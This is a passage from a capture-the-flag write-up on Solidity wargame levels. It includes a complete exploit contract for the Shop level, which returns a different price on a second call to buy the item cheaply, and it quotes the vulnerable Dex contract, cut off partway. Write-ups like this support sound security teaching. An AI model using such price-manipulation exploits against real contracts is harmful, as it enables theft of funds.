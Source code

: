 Our objective is to buy the object at a lower price than the current price.

The contract has a `price` variable, which is set to 100. The contract has a `buy`
function, which checks whether the price of the buyer is greater or equal to the
price of the object and whether the object has already been sold. If both conditions
are met, the object is sold and the price of the object is set to the price of the
buyer.

The contract uses an interface `Buyer`, which has a `price` function. The buyer
contract has to implement the `price` function. Important to note: it has the
`view` modifier, which means that the function does not change the state of the
contract.

Let's do it :)

Here is our contract:

```solidity
pragma solidity ^0.8.0;

interface IShop {
    function buy() external;
    function isSold() external view returns (bool);
}

contract Buyer {

    function buyFromShop(address _shop) public {
        IShop(_shop).buy();
    }

    function price() external view returns (uint256) {
        return IShop(msg.sender).isSold() ? 0 : 100;
    }
}
```

Deploy the `Buyer` contract and call the `buyFromShop()` function with the
Shop instance address. Your contract does the rest :)

### Learning

For the love of christ - do not trust any contract. The shop calls the
`price` function of the buyer contract twice and trusts the return value.
There is nothing which prevents the `Buyer` contract to change its data
between calls.

## Level 22: Dex <a name="level-22-dex"></a>

Let's have a look at the contract first:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
```